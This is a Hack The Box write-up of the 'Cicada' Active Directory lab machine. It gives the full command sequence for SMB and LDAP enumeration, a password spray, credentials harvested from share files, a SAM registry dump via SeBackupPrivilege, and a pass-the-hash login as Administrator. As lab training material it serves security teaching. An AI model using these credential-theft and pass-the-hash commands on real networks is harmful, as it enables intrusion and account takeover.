

# Hack The Box - Cicada



Cicada is an Active Directory box that starts with public SMB access, then moves through password reuse and exposed credentials in share files. From there, the path leads to a user shell over WinRM, and finally to `Administrator` by dumping the local SAM with `SeBackupPrivilege`.

## Reconnaissance

I began with a full port scan to identify the exposed services.

```bash
nmap -p- --min-rate 10000 -oA scans/cicada-alltcp 10.10.11.133
nmap -p 53,88,135,139,389,445,464,636,3268,3269,5985 -sCV -oA scans/cicada-services 10.10.11.133
```

The scan showed a Windows Domain Controller with the following open ports:

```text
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
636/tcp  open  ssl/ldap
3268/tcp open  ldap
3269/tcp open  ssl/ldap
5985/tcp open  http
```

The hostname and certificate details identified the domain as `cicada.htb` and the DC as `CICADA-DC.cicada.htb`, so I added those to my hosts file.

## Initial Access

### SMB Enumeration

I first checked SMB access without credentials and with `guest`.

```bash
nxc smb cicada.htb -u '' -p '' --shares
nxc smb cicada.htb -u 'guest' -p '' --shares
```

Anonymous access was denied, but `guest` could list shares and read `HR` and `IPC$`.

I then spidered the `HR` share:

```bash
nxc smb cicada.htb -u 'guest' -p '' --spider HR --regex "."
```

That revealed a file named `Notice from HR.txt`, which I downloaded:

```bash
nxc smb cicada.htb -u 'guest' -p '' --share HR --get-file "Notice from HR.txt" "Notice from HR.txt"
```

The file contained a default password:

```text
Cicada$M6Corpb*@Lp#nZp!8
```

It did not include a username, so I moved on to user enumeration.

### RID Brute Force

I used RID brute forcing to enumerate domain users.

```bash
nxc smb cicada.htb -u 'guest' -p '' --rid-brute
```

That returned several usernames, including:

```text
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

### Password Spray

I sprayed the recovered password across the enumerated users.

```bash
nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

That succeeded for `michael.wrightson`.

### LDAP Enumeration

Using Michael’s credentials, I enumerated LDAP users and descriptions:

```bash
nxc ldap cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

That revealed another password in a user description:

```text
david.orelious : aRt$Lp#7t*VQ!3
```

### Share Discovery

With David’s credentials, I accessed the `Dev` share and found a PowerShell script:

```bash
nxc smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --spider Dev --regex "."
```

The file was:

```text
Backup_Script.ps1
```

I downloaded and inspected it.

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

That exposed the next user’s credentials:

```text
emily.oscars : Q!3@Lp#M6b*7t*Vt
```

I used those credentials to log in over WinRM and obtain the user flag.

```bash
evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i cicada.htb
```

## Privilege Escalation

### Privilege Check

Once on the box as `emily.oscars`, I checked available privileges.

```powershell
whoami /priv
```

The output showed `SeBackupPrivilege` was enabled, along with `SeRestorePrivilege`.

### Registry Dump

With `SeBackupPrivilege`, I dumped the registry hives needed to extract local account hashes.

```powershell
reg save hklm\sam sam
reg save hklm\system system
```

Then I downloaded both files with the WinRM shell:

```powershell
download sam
download system
```

### Hash Extraction

I passed the downloaded hives to `secretsdump.py` to extract the local SAM hashes:

```bash
impacket-secretsdump -system SYSTEM -sam SAM local
```

That produced the local `Administrator` NTLM hash:

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```

### Administrator Access

Finally, I reused the hash to authenticate over WinRM as `Administrator`:

```bash
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

That gave me the final shell and access to the root flag.

## Attack Path

- **Scan the host** — identify the domain controller services.
- **Enumerate SMB** — confirm `guest` can access `HR`.
- **Read the HR notice** — recover the default password.
- **Brute-force RIDs** — enumerate valid domain users.
- **Password spray** — find `michael.wrightson`.
- **Query LDAP** — recover `david.orelious` from a description field.
- **Access the Dev share** — find `Backup_Script.ps1`.
- **Extract Emily’s credentials** — reuse the hardcoded password.
- **Gain WinRM access** — log in as `emily.oscars`.
- **Use SeBackupPrivilege** — dump `SAM` and `SYSTEM`.
- **Extract Administrator hash** — recover the local NTLM hash.
- **WinRM as Administrator** — finish the machine.
